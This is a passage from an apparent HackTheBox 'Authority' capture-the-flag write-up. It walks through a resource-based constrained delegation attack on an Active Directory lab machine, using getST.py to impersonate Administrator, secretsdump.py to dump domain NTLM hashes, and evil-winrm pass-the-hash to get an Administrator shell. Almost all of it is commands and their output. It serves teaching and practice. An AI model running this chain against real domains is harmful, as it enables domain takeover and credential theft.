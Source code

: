     [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] 0xdf$ can now impersonate users on AUTHORITY$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     0xdf$        (S-1-5-21-622327497-3269355298-2248959698-11602)
    

I’ll make sure my clock is in sync with Authority:

    
    
    oxdf@hacky$ sudo ntpdate 10.10.11.222
    27 Nov 18:28:15 ntpdate[588490]: step time server 10.10.11.222 offset -14216.802932 sec
    

And get a Silver Ticket:

    
    
    oxdf@hacky$ getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/0xdf$:0xdf0xdf0xdf'
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*]     Requesting S4U2self
    [*]     Requesting S4U2Proxy
    [*] Saving ticket in Administrator.ccache
    

With this, I can dump the NTLM hashes from the DC:

    
    
    oxdf@hacky$ KRB5CCNAME=Administrator.ccache secretsdump.py -k -no-pass authority.htb/administrator@authority.authority.htb -just-dc-ntlm
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
    svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
    AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:40411717d1f7710c4ba1e3f5e1906d90:::
    0xdf$:11602:aad3b435b51404eeaad3b435b51404ee:81cebe41108f5b1c36f3dd3c01dccfc3:::
    [*] Cleaning up... 
    

That hash works over Evil-WinRM:

    
    
    oxdf@hacky$ evil-winrm -i authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

[](/2023/12/09/htb-authority.html)

